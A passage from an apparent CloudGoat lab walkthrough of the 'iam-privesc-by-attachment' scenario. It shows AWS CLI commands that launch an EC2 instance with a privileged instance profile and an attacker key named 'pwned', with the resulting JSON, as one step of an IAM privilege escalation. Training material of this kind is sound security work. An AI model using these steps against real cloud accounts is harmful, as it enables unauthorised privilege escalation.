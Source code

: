 ```json
                    "Value": "CloudGoat"
                },
                {
                    "Key": "Scenario",
                    "Value": "iam-privesc-by-attachment"
                }
            ]
        }
    ]
}
```

#### Run EC2 instance
```shell
aws --profile kerrigan ec2 run-instances --image-id ami-0a313d6098716f372 --instance-type t2.micro --iam-instance-profile Arn=arn:aws:iam::###:instance-profile/cg-ec2-meek-instance-profile-iam_privesc_by_attachment_### --key-name pwned --subnet-id <subnet-id> --security-security-group-ids <security-group-id-ssh> <security-group-id-http>
```
This command will create and run new EC2 instance with instance type `t2.micro`, image id `ami-0a313d6098716f372` which is an ubuntu image, and attach key `pwned`.

Result:
```json
{
    "Groups": [],
    "Instances": [
        {
            "ImageId": "ami-0a313d6098716f372",
            "InstanceId": "<instance-id>",
            "InstanceType": "t2.micro",
            "KeyName": "pwned",
            "State": {
                "Code": 0,
                "Name": "pending"
            },
            "IamInstanceProfile": {
                "Arn": "arn:aws:iam::###:instance-profile/cg-ec2-meek-instance-profile-iam_privesc_by_attachment_###"
            }
        }
    ]
}
```
We will get the EC2 instance with `pending` state and doesn't have public ip yet. After the instance is in `running` state, we will get an public ip.

### Get instance detail
```shell
aws --profile kerrigan ec2 describe-instances --instance-id <instance-id>
```
